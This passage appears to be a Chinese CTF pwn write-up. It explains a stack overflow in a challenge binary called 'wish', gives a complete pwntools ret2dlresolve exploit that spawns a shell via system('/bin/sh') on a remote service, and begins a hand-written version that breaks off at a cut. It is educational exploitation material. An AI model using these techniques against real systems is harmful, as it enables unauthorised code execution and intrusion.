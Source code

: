 ```python
p.sendline(b"a"*50) # 溢出覆盖后边的变量

p.interactive()
```
### wish
首先ckecksec看下保护  
![checksec](/img/mute1.png)  
平平无奇只开了NX和部分RELRO，IDA看逻辑：  
```cpp
ssize_t vuln(){
  char buf[8]; // [esp+Ch] [ebp-Ch] BYREF

  return read(0, buf, 52);
}
```
是一个溢出，但是很可悲的是这个题目不仅没有后门函数，甚至没有解析 **任何的输出方法** ，没有输出就难以泄露地址，而libc又是随机加载的不知道初始地址，所以我们有以下思路：
- 爆破libc的偏移 return to OneGadGet
- ret2dlresolve
其中方法二是一种比ret2libc更强大的ROP，可以在不泄露libc地址的情况下通过dlresolve用任意函数名覆盖解析已有的函数。而pwntools又提供了强大的Ret2dlresolvePayload类，下面是自动化脚本：
```python
from pwn import *

context.binary = elf = ELF('wish')
r = remote("xx.xx.xx.xx",xxxx)
rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/sh"])
rop.read(0, dlresolve.data_addr, 200)
rop.ret2dlresolve(dlresolve)
r.send(b'A' * (0xc+4) + rop.chain())
pause(1)
r.send(dlresolve.payload)
r.interactive()
```
运行就能获得shell   
短短12行代码就能完成强大的ret2dl，pwntools确实是强大的工具。  

当然，我们要想了解ret2dlresolve的原理，最好的办法是[不借助轮子实现一次](https://blog.csdn.net/qq_51868336/article/details/114644569)。  
而且上边的自动化脚本发送的第一段栈迁移的payload长度正好是52个字符，很极限，我们手写的脚本不需要平衡栈的情况下只需要48个字符，多了一点空间：  
```python
from pwn import *

elf = ELF('./wish')

offset = 0xc + 4
ppp_ret = 0x080492a1      # ROPgadget --binary wish --only "pop|ret"
leave_ret = 0x08049125    # ROPgadget --binary wish --only "leave|ret"
plt_0 = 0x08049030        # objdump -d -j .plt wish
rel_plt = 0x08048350      # objdump -s -j .rel.plt wish
dynsym = 0x08048248       # readelf -S wish
dynstr = 0x080482b8       # readelf -S wish
ret = 0x0804900e          # ROPgadget --binary wish --only "ret"

pop_ebp_ret = ppp_ret + 2
read_plt = elf.plt['read']
stack_size = 0x800
bss_addr = elf.sym['__bss_start']
base_stage = bss_addr + stack_size
r = remote("xx.xx.xx.xx",xxxx)

# read(0, bss, 100)把payload2写入bss段，并把栈迁移到bss段
```